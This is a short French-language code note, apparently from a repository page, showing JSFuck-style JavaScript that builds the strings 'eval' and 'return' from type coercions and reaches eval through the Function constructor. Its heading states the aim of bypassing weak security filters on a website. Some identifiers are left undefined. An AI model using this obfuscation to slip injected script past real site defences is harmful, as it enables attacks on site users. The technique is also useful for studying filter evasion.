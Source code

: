 ## Faire appel à n'importe quel fonction et arriver à eval pour contourner les sécurités faibles et faire passer n'importe quoi sur un site
```js

const arrayFn = [][constructorString] // [Function: Array]
const filterFn = [][filter][constructorString] // [Function: Function]
const v = (+((+!![]+!![]+!![])+(+!![]+[])))[toString]((+!![]+!![]+!![])+(+!![]+!![]+[])) // "v" avec Number.toString() avec une base 32
const evalString = ([][+[]]+[])[+!![]+!![]+!![]] // "e"
  + v
  + (![]+[])[+!![]] // "a"
  + (![]+[])[+!![]+!![]] // "l"

const returnString = (!![]+[])[+!![]] // "r"
  + ([][+[]]+[])[+!![]+!![]+!![]] // "e"
  + (!![]+[])[+[]]// "t"
  + (!![]+[])[+!![]+!![]] // "u"
  + (!![]+[])[+!![]] // "r"
  + ([][+[]]+[])[+!![]] // "n"

const space = ({} + [])[+!![]+!![]+!![]+!![]+!![]+!![]+!![]] // " "

const returnEval = returnString + space + evalString // "return eval"

const evalFn = [][filter][constructorString](returnEval)() // [Function: eval]
```
